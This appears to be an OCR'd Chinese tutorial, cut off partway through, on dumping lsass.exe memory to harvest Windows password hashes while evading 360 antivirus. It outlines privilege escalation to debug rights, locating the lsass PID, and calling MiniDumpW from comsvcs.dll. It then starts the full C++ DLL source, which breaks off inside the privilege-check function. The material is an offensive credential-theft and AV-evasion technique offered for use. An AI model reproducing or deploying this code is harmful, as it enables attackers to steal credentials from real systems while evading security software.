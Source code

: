 # 前言

通常来说，即使我们成功实现了mimikatz的静态免杀，其抓取hash的行为仍可能会被防病毒软件检测到虽然你可以通过修改mimikatz的源码来实现行为上的免杀，但这需要花费大量的时间。我建议针对具体功能的代码来实现免杀，例如，mimikatz的dump hash功能主要依赖于Windows API的Minidump函数。



# 绕过360核晶

## 实现思路

**1.设置权限**

为了能够访问 lsass.exe 进程的内存，代码首先检查并提升程序的权限。这是通过 `CheckPrivilege()` 和 `EnableDebugPrivilege()` 函数完成的

**2.获取lsass进程的pid**

 代码使用 `GetLsassPID()` 函数获取 lsass.exe 进程的进程ID (PID)

**3.创建内存转储文件**

代码最主要的部分是 `Dump()` 函数，这个函数使用了 `MiniDumpW` 函数来创建 lsass.exe 进程的内存转储文件。

`MiniDump`函数是`comsvcs.dll`库中的一个函数，通常被用于生成进程的堆栈跟踪信息，在Windows中，`MiniDump`可以生成一个包含线程和句柄信息以及可选内存信息的dump文件，函数的使用需传入一个包含进程ID和转储文件路径的字符串参数



## 完整代码

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#pragma comment( lib, "Dbghelp.lib" )
#define _CRT_SECURE_NO_WARNINGS


// comsvcs.dll 中 MiniDumpW 函数的类型定义
typedef HRESULT(WINAPI* _MiniDumpW)(DWORD , DWORD , PWCHAR );


// 检查是否具有管理员权限
BOOL CheckPrivilege() 
{
    BOOL state;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    PSID AdministratorsGroup;

    state = AllocateAndInitializeSid(
        &NtAuthority,
        2,
        SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS,
        SECURITY_LOCAL_SYSTEM_RID, DOMAIN_GROUP_RID_ADMINS, 0, 0, 0, 0,
        &AdministratorsGroup);

    if (state)
    {
        if (!CheckTokenMembership(NULL, AdministratorsGroup, &state))
        {
            state = FALSE;
```